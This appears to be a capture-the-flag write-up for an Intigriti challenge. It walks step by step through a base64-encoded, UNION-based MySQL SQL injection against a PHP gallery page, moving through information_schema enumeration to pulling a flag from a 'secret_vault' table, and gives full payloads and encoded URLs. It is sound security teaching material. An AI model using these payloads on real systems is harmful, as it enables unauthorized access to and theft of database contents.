







+++
title = 'Intigriti | Challenge 0926 Writeup'
date = 2026-09-23T00:00:00-01:00
draft = false
tags = ['SQLI']
description= "A simple yet, the kind of SQL injection a bug hunter yearns to unveil ^.^"
+++

Intigriti's September challenge was a challenge I had fun solving, leveraging a simple, yet, the kind of SQL Injection (SQLI) that a bug hunter looks forward to unveil in real scenarios. This writeup encompasses a step-by-step approach to perform SQLI manually going from recon to capturing the flag.

We note that SQLI occur when an attacker is able to manipulate the SQL queries made to an SQL database by injecting malicious input, allowing them to execute arbitrary SQL queries on the server's database (DB).

###  Reconnaissance
We land on the PHP [challenge page](https://challenge-0926.challenges.intigriti.io/challenge.php) which encompasses a critter gallery.

We observe that each critter pic holds a link with the parameter `pic` and the base64 encoded name of the animal. For instance, `?pic=a29hbGE=` loads the `koala` card as showcased below. 



As a first reflex, we set the parameter `pic` to `'` base64 encoded, by visiting `https://challenge-0926.challenges.intigriti.io/challenge.php?pic=Jw==`, which yields a white blank page. 

Furthermore, when visiting `https://challenge-0926.challenges.intigriti.io/challenge.php?pic=JyBvciAxOyM=`, in other words, setting the parameter `pic` to `' or 1;#` base64-encoded, we obtain the description of the fox, so the _first_ critter as underlined below.


Thus, we have SQL Injection in the parameter `pic` which we can exploit by injecting our query base64 encoded ^^

Our flag is probably in the app's database, hence let's try to retrieve the latter's content.

### Learning more about our DB

1. We first identify the DBMS. 
Our first intuition is MySQL. Let's try to verify that by injecting the payload 
```sql
' union select @@version_comment; #
```
by visiting `https://challenge-0926.challenges.intigriti.io/challenge.php?pic=JyB1bmlvbiBzZWxlY3QgQEB2ZXJzaW9uX2NvbW1lbnQ7ICM=`. 

Indeed, our intuition was right, the DBMS is MySQL. 

2. Now, let's try to retrieve the names of all schemas on the server using the query 
```sql
' UNION SELECT GROUP_CONCAT(0x7c,schema_name,0x7c) FROM information_schema.schemata; #
```
To achieve that, we set the URL to
`https://challenge-0926.challenges.intigriti.io/challenge.php?pic=JyBVTklPTiBTRUxFQ1QgR1JPVVBfQ09OQ0FUKDB4N2Msc2NoZW1hX25hbWUsMHg3YykgRlJPTSBpbmZvcm1hdGlvbl9zY2hlbWEuc2NoZW1hdGE7ICM=`


3. We then extract the names of all tables within the schema `critter_gallery` by setting the query to 
```sql
' UNION SELECT GROUP_CONCAT(0x7c,table_name,0x7C) FROM information_schema.tables WHERE table_schema="critter_gallery"; #
``` 
By visiting `https://challenge-0926.challenges.intigriti.io/challenge.php?pic=JyBVTklPTiBTRUxFQ1QgR1JPVVBfQ09OQ0FUKDB4N2MsdGFibGVfbmFtZSwweDdDKSBGUk9NIGluZm9ybWF0aW9uX3NjaGVtYS50YWJsZXMgV0hFUkUgdGFibGVfc2NoZW1hPSJjcml0dGVyX2dhbGxlcnkiOyAj`, we obtain the tables `animals`, and most importantly `secret_vault`. 


4. Let's retrieve the latter's columns using the query below base64-encoded
```sql
' UNION SELECT GROUP_CONCAT(0x7c,column_name,0x7C) FROM information_schema.columns WHERE table_name="secret_vault"; #
``` 
`https://challenge-0926.challenges.intigriti.io/challenge.php?pic=JyBVTklPTiBTRUxFQ1QgR1JPVVBfQ09OQ0FUKDB4N2MsY29sdW1uX25hbWUsMHg3QykgRlJPTSBpbmZvcm1hdGlvbl9zY2hlbWEuY29sdW1ucyBXSEVSRSB0YWJsZV9uYW1lPSJzZWNyZXRfdmF1bHQiOyAj` gives the columns `id` and `note`. 



Our flag is probably in the column `note` so let's retrieve its content.

### PoC

We set the parameter `pic` to the query :
```sql
' UNION SELECT GROUP_CONCAT(0x7c,note,0x7C) FROM secret_vault; #
``` 
base64-encoded and visit the URL `https://challenge-0926.challenges.intigriti.io/challenge.php?pic=JyBVTklPTiBTRUxFQ1QgR1JPVVBfQ09OQ0FUKDB4N2Msbm90ZSwweDdDKSBGUk9NIHNlY3JldF92YXVsdDsgIw==`. 
This yields our flag as underlined below :




And voila, as highlighted, our flag is **INTIGRITI{01a09f56-74a2-700b-a849-ffe6742327b2}**. 
